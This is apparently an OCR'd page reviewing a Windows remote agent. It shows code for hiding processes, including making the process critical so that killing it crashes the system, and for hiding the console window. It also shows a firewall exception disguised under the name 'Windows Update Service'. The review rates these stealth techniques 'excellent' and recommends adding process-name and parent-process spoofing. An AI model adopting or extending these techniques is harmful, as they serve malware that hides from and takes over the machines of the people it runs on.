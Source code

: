 ### **Process Hiding Techniques:**

**Method 1: Critical Process** (Requires Admin)
```python
ntdll.RtlSetProcessIsCritical(1, 0, 0)
# Effect: BSOD if process is terminated
# Detection: Invisible to Task Manager
# Risk: System instability if crashes
```

**Method 2: Console Window Hiding**
```python
user32.ShowWindow(console_window, 0)  # SW_HIDE
# Effect: Hides console window
# Detection: Process still visible but no window
```

### **Firewall Exception:**
```bash
netsh advfirewall firewall add rule
  name="Windows Update Service"
  dir=in/out
  action=allow
  program=<agent_path>
  enable=yes

Result:
✅ Inbound connections allowed
✅ Outbound connections allowed
✅ No Windows Firewall prompts
```

### **Safe Emit Features:**
```python
1. Check if sio exists
2. Check if connected
3. Try emit
4. If error + retry=True:
   - Wait 1 second
   - Try again
5. Log all failures
```

### **Findings:**
1. ✅ **EXCELLENT:** Multi-method process hiding
2. ✅ **EXCELLENT:** Firewall exception creation
3. ✅ **EXCELLENT:** Safe Socket.IO emission with retry
4. ✅ **GOOD:** Platform checks (Windows-specific)
5. ✅ **GOOD:** Timeout protection (10s for firewall)
6. ⚠️ **HIGH-RISK:** RtlSetProcessIsCritical can cause BSOD
7. ✅ **GOOD:** Error handling throughout

### **Recommendations:**
1. ⚠️ Use RtlSetProcessIsCritical cautiously
2. ✅ Add process name spoofing
3. ✅ Add parent process spoofing
4. ✅ Consider additional hiding methods
